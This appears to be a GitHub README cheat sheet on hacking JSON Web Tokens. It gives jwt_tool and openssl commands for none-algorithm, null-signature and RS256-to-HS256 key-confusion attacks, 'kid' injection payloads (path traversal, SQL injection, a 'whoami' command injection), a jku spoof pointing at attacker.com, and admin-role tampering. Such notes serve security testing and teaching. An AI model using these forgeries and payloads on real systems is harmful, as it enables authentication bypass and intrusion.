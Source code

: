 # JWT_hacking

- None algorithm attack – CVE-2015-9235

    - This attack targets an option in the JWT standard for producing unsigned keys. The output literally omits any signature portion after the second dot. Due to weaknesses in some libraries or server configurations, a service may read our tampered request, see that it does not need to be signed, and then just accept it on trust. This can be exploited using JWT_Tool with the -X a option

ex-
 ![image](https://user-images.githubusercontent.com/56452603/152351911-bdfb088d-571e-4077-8ac3-b3a152cd473e.png)

- Signature checked or not ?
  - Try Delete some character from the signature and see what behaviour you will get by application
   - If an error message occurs the signature is being checked
   - If there is no any error occur then it's time to start tampering the Payload.
    
- RS256 to HS256 Key Confusion Attack – CVE-2016-5431
   - So here we are going to change the algorithm from RS256 to HS256. Hence, this way the workflow would convert from Asymmetric to Symmetric encryption and we can sign the new tokens with the same public key.
As this is a public key, so this key has to remain public. So you can find it by yourself on the internet or another potential source is the server’s TLS certificate, which may be being re-used for JWT operations:
command:
openssl s_client -connect <hostname>:443
  
    - Copy the “Server certificate” output to a file (e.g. cert.pem) and extract the public key (to a file called key.pem) by running:
  
     - openssl x509 -in cert.pem -pubkey -noout > key.pem
  
     - This how you can get public.pem of any host.

     - Save this public key in the file named public.pem
     - To change the algorithm we are again going to use the same tool named jwt_tool.
     - First, we will see what is the behaviour of the application with the given RS256 signed token.

      - Send JWT to validate the token

     - You can see token is validated by the server So let’s start changing the algorithm with the tool.
     - Command with an example :
     - To just change the algorithm we can use this command
     - python3 jwt_tool.py <JWT TOKEN> -S hs256 -k public.pem


- null signature
    - Delete the signature from the end of the token. If vulnerable the application will fail to check the signature as it sees nothing that needs checking.
    - $ python3 jwt_tool.py JWT_HERE -X n
   - If page returns valid then you have a bypass - go tampering.

- kid parameter injections
     - if there any kid parameter available in the token the you can check for path travesal,SQLI and RCE.

    - ex- 
 {
  ...
  ...
  "kid": "../../../../../../dev/null"  
  "kid": "xxxx' UNION SELECT 'aaa"  
  "kid": "key1|whoami"
 }

 - Attacks using the jku header
      - In the JWT header, developers can also use the jku parameter to specify the JSON Web Key Set URL. This parameter indicates where the application can find the JSON Web Key (JWK) used to verify the signature – basically the public key in JSON format.

     - To illustrate, let’s take the following JWT that uses the jku parameter to specify the public key:
 -ex.  
  {
  "alg": "RS256",
  "typ": "JWT",
  "jku":"https://example.com/key.json"
   }  
    - Using https://trusted (for example https://trusted@attacker.com/key.json), if the application checks for URLs starting with trusted

- Payload Tamppering
     - change payload and see waht behaviour you will get.
    -ex.
    { 
      "IsAdmin":"1",
      "role":"admin"
    }
    - check signeture is verified or not 
  
  

  # Tool
 - https://github.com/ticarpi/jwt_tool
 - https://github.com/hahwul/jwt-hack
    
 -  https://jwt.io/
